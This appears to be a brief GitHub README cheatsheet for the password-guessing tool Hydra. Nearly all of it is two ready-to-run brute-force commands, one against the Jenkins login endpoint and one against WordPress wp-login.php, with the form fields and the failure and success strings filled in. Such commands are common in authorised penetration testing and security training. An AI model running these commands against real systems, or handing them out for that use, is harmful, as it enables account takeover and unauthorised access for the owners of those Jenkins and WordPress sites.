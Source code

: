 # hydra-cheatsheet
Hydra cheatsheet for common CMS &amp; Services

### Jenkins
```
sudo hydra -l [USERNAME] -P [PASSWORD_FILE] [TARGET] \
-s [PORT] http-post-form \
"/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" \
-V
```
### Wordpress
```
sudo hydra -l [USERNAME] -P [PASSWORD_FILE] [TARGET] \
http-form-post '/blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' \
-V
```
